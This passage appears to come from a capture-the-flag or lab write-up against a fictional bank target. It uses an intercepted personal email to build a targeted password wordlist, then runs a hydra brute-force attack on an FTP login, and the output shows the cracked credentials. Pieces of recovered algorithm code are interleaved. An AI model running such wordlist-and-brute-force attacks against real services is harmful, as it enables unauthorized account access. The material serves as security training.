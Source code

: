 <csadmin@nosecbank.com>; Mon, 20 Dec 2010 09:23:46 +0000 (GMT)
Message-Id: <2010122014234.j12Gqo4H049241@www.nosecbank.com>
Mime-Version: 1.0
Content-Type: multipart/alternative; 
boundary="---=_NextPart_000_0000_02F24S11.FEPQRE80"
X-Mailer: K-Mail; Build 1.0.5510
Thread-Index: Qw2cWVmE3odZs3TqTTqFvS1e3lexms==
Message: Hey Mark, I am curious if you would be free to come over and 
visit for my son Donovin's birthday tomorrow after work.  I would also 
appreciate if you brought Andy with you as well, because Donny 
really enjoyed playing with him last time he was over.  I know its short 
notice but he is turning 12 and it is special for both him and me. Let 
me know if this works. Thanks!  -Paul
{% endcodeblock %}

Also there is a secord part of some algorithm:
{% codeblock lang:c %}
csadmin@slax:~$ strings mailserv_download/2010122216451.f81Ltw4R010211.part2 | egrep -o "([0-9][0-9].*)"
24      int[] backLoop(int[] input){
25      int ref=input.length;   w
26      int a=input[1]; int b=input[ref-1];
27      int ch=(a+b)/2; 
28      for(int i=0;i<ref;i++){ 
29      if(i%2==0) input[i]=(input[i]%check)+(ref+i);   
30      else input[i]=(input[i]+ref+i);}        .
31      return input;}  
45      int[] loopProcess(int[] input){ 
46      for(int i=0;i<input.length;i++){
47      if(input[i]==40||input[i]==41) input[i]+=input.length;  
48      else if(input[i]==45) input[i]+=20+i;}  
49      return input;}  
{% endcodeblock %}

Using this information, we was able to crack the password:
{% codeblock %}
root@kali32:~# for i in {1..2000}; do echo donovin$i; echo Donovin$i; echo "$i"donovin; echo "$i"Donovin; done > wl
root@kali32:~# hydra -l sdadmin 192.168.1.20 ftp -P wl 
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-05-08 06:12:57
[DATA] max 16 tasks per 1 server, overall 64 tasks, 8000 login tries (l:1/p:8000), ~7 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.1.20   login: sdadmin   password: donovin1998
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-05-08 06:13:01
{% endcodeblock %}

We log in as sdadmin / donovin1998 and repeat the process:
{% codeblock lang:c %}
sdadmin@slax:~$ cat mailserv_download/2010122216451.f81Ltw4R010211.part3 | strings | egrep -o "([0-9][0-9].*)"
32      int[] loopBack(int[] input){
33      int ref=input.length/2; 
34      int[] encNew =int[input.length+ref];
35      int ch=0;
36      for(int i=(ref/2);i<input.length;i++){  
37      encNew[i]=input[ch]; ch++;}
38      for(int i=0;i<encNew.length;i++){
39      if(encNew[i]<=33) encNew[i]=33+(++ref*2);
40      else if(encNew[i]>=126) encNew[i]=126-(--ref*2);
41      else{   